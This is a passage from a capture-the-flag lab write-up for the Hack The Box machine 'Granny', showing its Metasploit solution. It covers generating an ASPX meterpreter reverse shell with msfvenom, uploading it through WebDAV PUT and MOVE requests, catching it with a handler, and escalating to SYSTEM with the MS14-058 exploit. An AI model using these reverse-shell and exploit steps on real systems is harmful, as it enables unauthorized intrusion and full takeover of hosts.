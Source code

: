 ## Extra Content: Metasploit Solution

I’m going to skim through this part since there are a ton of write ups out there that show how to solve this box using Metasploit.

First, create an ASPX meterpreter reverse shell.

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.7 LPORT=8888 -f aspx > met-shell.aspx

Then upload the shell payload in the same way we did before.

    root@kali:~/Desktop/htb/granny# cp met-shell.aspx met-shell.txt
    
    root@kali:~/Desktop/htb/granny# curl -X PUT [http://10.10.10.15/met-shell.txt](http://10.10.10.15/met-shell.txt) --data-binary [@met](http://twitter.com/met)-shell.txt
    
    root@kali:~/Desktop/htb/granny# curl -X MOVE -H 'Destination: [http://10.10.10.15/met-shell.aspx'](http://10.10.10.15/met-shell.aspx') [http://10.10.10.15/met-shell.txt](http://10.10.10.15/met-shell.txt)

Configure metasploit to receive the reverse shell.

    use exploit/multi/handler
    set lhost tun0
    set lport 8888

Confirm that the configuration was set properly using the “*options*” command.

![](../img/Granny Writeup/1_URuv3JpitFcQosEb7qgPUg.png)

Then use the “*run*” command to start the reverse tcp handler. In the browser, execute the *met-shell.aspx* payload and wait for a session to open up in Metasploit.

![](../img/Granny Writeup/1_8qr962N2EhGfjSOYVE1zSA.png)

Perfect! Next, use the local exploit suggester module to see which exploits the system is vulnerable to.

![](../img/Granny Writeup/1_NHjcuWBAByttFKC56LVZuQ.png)

We’ll go with the second one MS14–058.

    use exploit/windows/local/ms14_058_track_popup_menu
    set session 1
    run

It opens up another session.

![](../img/Granny Writeup/1_2gb6IknR6r5uGZ18RQnfow.png)

Let’s see what privilege we’re running with.

    meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM

We’re system! Grab the *user.txt* flag.

![](../img/Granny Writeup/1_6ehYuARyQtTTL5sY_QjK9w.png)

